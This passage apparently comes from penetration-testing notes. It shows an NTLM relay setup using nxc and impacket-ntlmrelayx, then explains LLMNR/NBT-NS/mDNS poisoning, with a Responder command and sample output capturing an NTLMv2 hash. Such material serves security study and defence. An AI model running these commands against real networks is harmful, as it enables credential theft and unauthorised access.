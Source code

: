 {% tab title="Impacket" %}
```bash
# Enumerate the target hosts
nxc smb 172.16.10.0/24 --gen-relay-list relay.txt

# Relay via Impacket's script
sudo impacket-ntlmrelayx -tf relay.txt -smb2support --no-http
```
{% endtab %}
{% endtabs %}

### Forced Authentication

The goal here is to **abuse name-resolution protocols** and SMB to capture NetNTLM (v1/v2) authentication material from Windows hosts, then either crack those hashes or relay them to escalate privileges.

When a Windows host resolves a hostname (for example `\\mysharedfolder\`), it follows roughly this order:

1. **Hosts file** — `C:\Windows\System32\Drivers\etc\hosts`.
2. **Local DNS cache** — answers from recently resolved names.
3. **Configured DNS server** — the domain or DHCP-assigned DNS.
4. **Multicast name resolution** — protocols like LLMNR, NBT-NS, and mDNS. This queries other devices on the same network segment.

If earlier steps fail (e.g., the user mistyped `\\mysharefoder` instead of `\\mysharedfolder`), **the multicast queries are broadcast**. Attackers on the same network can respond and impersonate the requested service. This is because **multicast resolution protocols do not validate the authenticity of responses** — they trust the first valid reply received.

&#x20;We can use `responder` to listen for LLMNR / NBT-NS / mDNS name resolution requests and **poison responses to claim names being requested by victims**. Responder will reply to multicast name queries and pretend to be the target service (SMB, HTTP, etc.), causing the victim to attempt authentication to the attacker's host.

{% code overflow="wrap" %}
```shell
# Launch responder
$ sudo responder -I ens33

[+] Current Session Variables:                                                     
    Responder Machine Name     [WIN-2TY1Z1CIGXH]   
    Responder Domain Name      [HF2L.LOCAL]                                        
    Responder DCE-RPC Port     [48162] 

[+] Listening for events... 

[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Domain Master Browser)
[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Browser Election)
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[*] [LLMNR]  Poisoned answer sent to 10.10.110.17 for name mysharefoder
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : WIN7BOX\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:997...<SNIP>...000
```
{% endcode %}
